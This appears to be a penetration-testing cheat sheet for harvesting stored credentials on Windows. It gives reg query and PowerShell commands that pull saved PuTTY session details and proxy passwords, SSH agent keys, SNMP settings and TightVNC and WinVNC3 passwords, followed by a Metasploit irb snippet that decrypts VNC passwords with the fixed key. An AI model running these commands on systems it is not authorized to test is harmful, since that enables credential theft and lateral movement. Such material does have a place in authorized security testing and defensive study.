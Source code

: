 #### PUTTY CREDS
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there
```

---
#### PUTTY SSH HOST KEYS
```powershell
reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
```

---
#### SSH KEYS IN REGISTRY
```powershell
reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

---
#### WINVNC3
```powershell
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

---
#### SNMP
```powershell
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
```

---
#### TIGHTVNC
```powershell
reg query "HKCU\Software\TightVNC\Server"
#
Get-ItemProperty -Path  HKLM:\SOFTWARE\TightVNC\Server\ -Name Password
#
reg query HKLM\SOFTWARE\TightVNC\Server\ /v Password
```
#### DECRYPT
```
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["XXXXXXXXXXXXXXXX"].pack('H*'), fixedkey
=> "password"
```

---